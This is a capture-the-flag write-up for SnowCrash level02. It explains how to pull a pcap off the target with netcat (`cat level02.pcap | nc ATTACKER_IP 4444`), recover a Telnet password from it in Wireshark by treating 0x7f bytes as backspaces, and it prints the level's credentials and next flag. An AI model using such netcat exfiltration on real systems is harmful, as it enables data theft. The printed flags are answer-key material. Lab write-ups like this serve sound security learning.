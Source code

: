 # LEVEL 02

> [!TIP]
> user: `level02` <br>
> pass: `f2av5il02puano7naaf6adaaf`

## STEP 01

Retrieve the [level02.pcap](https://github.com/Pixailz/SnowCrash/tree/main/level02/resources/level02.pcap) file

> on the ATTACKER machine
```bash
nc -lvp 4444 > level02.pcap
```

> on the TARGET machine
```bash
cat level02.pcap | nc ATTACKER_IP 4444
```

## STEP 02

Opening the **[level02.pcap](https://github.com/Pixailz/SnowCrash/blob/main/level02/resources/level02.pcap)**
file with Wireshark show us a TCP stream from a TELNET session, i believe

> [!TIP]
> To follow the whole stream, simply click on a packet -> Follow -> TCP Stream

Here is the output
```
..%..%..&..... ..#..'..$..&..... ..#..'..$.. .....#.....'........... .38400,38400....#.SodaCan:0....'..DISPLAY.SodaCan:0......xterm.........."........!........"..".....b........b....	B.
..............................1.......!.."......"......!..........."........"..".............	..
.....................
Linux 2.6.38-8-generic-pae (::ffff:10.1.1.2) (pts/10)

..wwwbugs login: l.le.ev.ve.el.lX.X
..
Password: ft_wandr...NDRel.L0L
.
..
Login incorrect
wwwbugs login:                                      n:
```

## STEP 03

A little bit of guessing

It seems that we need to go deeper with the **Password: ft_wandr...NDRel.L0L**
part

> [!NOTE]
> because it's not printable, '.' represent 0x7f, it's available under C Array

So guessing that those 0x7f is a **backspace**, deleting and reformating give us
the following password
`ft_waNDReL0L`

> [!IMPORTANT]
> the password for the next level is `kooda2puivaav1idi4f57q8iq`
